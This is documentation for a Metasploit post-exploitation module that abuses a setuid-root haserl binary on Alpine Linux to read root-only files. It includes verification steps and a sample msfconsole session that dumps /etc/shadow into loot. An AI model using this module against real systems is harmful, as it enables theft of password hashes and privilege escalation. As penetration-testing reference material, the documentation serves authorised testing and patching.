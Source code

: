 ## Vulnerable Application

[Haserl](http://haserl.sourceforge.net/) is an unmaintained tool to use LUA as CGI in web servers.
On Linux, when haserl is suid root, it will attempt to drop its privilege to the uid/gid of the owner of the cgi script,
similar to suexec in Apache.

Haserl could have been a thing of the past, but it's used in Alpine Linux'
[Alpine Configuration
Framework](https://wiki.alpinelinux.org/wiki/Alpine_Configuration_Framework_Design),
which is commonly used on this distribution.

This module exploits the fact that calling haserl on a file will make it not only change the effective UID,
but also display the content of the file.

This has been fixed in version 0.9.36.

### Prerequisites

1. Install Alpine Linux
2. Install haserl

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: `use post/linux/gather/haserl_read`
4. Set `SESSION`
5. Do: `run` or `exploit`
6. **Verify** that the file was successfully downloaded

## Options

### RFILE

Remote file to download, defaults to `/etc/shadow`.


## Scenarios

```
msf > use post/linux/gather/haserl_read 
msf post(linux/gather/haserl_read) > show options 

Module options (post/linux/gather/haserl_read):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   RFILE    /etc/shadow             yes       File to read
   SESSION  1                       yes       The session to run this module on.

msf post(linux/gather/haserl_read) > run

[!] SESSION may not be compatible with this module.
[+] Found set-uid haserl: /usr/bin/haserl-lua53
[+] Shadow saved in: /home/user/.msf4/loot/20210301204020_default_192.168.138.113_haserl_shadow_107368.txt
[*] Post module execution completed
msf post(linux/gather/haserl_read) >
```

## Reference
1. https://twitter.com/steaIth/status/1364940271054712842
